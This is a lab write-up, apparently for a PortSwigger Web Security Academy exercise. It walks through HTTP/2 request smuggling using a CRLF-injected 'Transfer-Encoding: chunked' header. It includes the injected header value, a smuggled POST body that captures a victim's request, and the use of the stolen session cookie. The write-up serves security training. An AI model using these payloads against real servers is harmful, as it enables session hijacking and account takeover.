 #  HTTP/2 request smuggling via CRLF injection

## 📌 Lab Details
- **Title**: HTTP/2 request smuggling via CRLF injection
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/7d452275ba41f1aa0fc50b97490ae64b428d6401c7f193516bd15466490d8e01?referrer=%2fweb-security%2frequest-smuggling%2fadvanced%2flab-request-smuggling-h2-request-smuggling-via-crlf-injection

## 🔍 Summary
This lab demonstrates how **CRLF injection in HTTP/2 headers** can be abused to bypass front-end validation and smuggle malicious requests to the back-end. By inserting `\r\nTransfer-Encoding: chunked` inside a header value, the request is interpreted differently by the HTTP/2 front-end and the HTTP/1.1 back-end.

## 🛠 Steps to Solve
1. In Burp's browser, use the lab's search function a couple of times and observe that the website records your recent search history. Send the most recent `POST /` request to Burp Repeater and remove your session cookie before resending the request. Notice that your search history is reset, confirming that it's tied to your session cookie.
2. Expand the Inspector's **Request Attributes** section and make sure the protocol is set to HTTP/2.
3. Using the Inspector, add an arbitrary header to the request. Append the sequence `\r\n` to the header's value, followed by the `Transfer-Encoding: chunked` header:
   ```sh
    Name: foo
    Value: bar\r\n
    Transfer-Encoding: chunked
   ```
4. In the body, attempt to smuggle an arbitary prefix as follows:
   ```sh
   0

   SMUGGLED
   ```
   Observe that every second request you send receives a **404** response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
5. Change the body of the request to the following:
   ```sh
   0

   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Cookie: session=YOUR-SESSION-COOKIE
   Content-Length: 900

   search=x
   ```
6. Send the request and then go to the **Home** page of the lab to find the `victim's` request.
7. In Burp Repeater, send a request for the home page using the stolen session cookie to solve the lab.
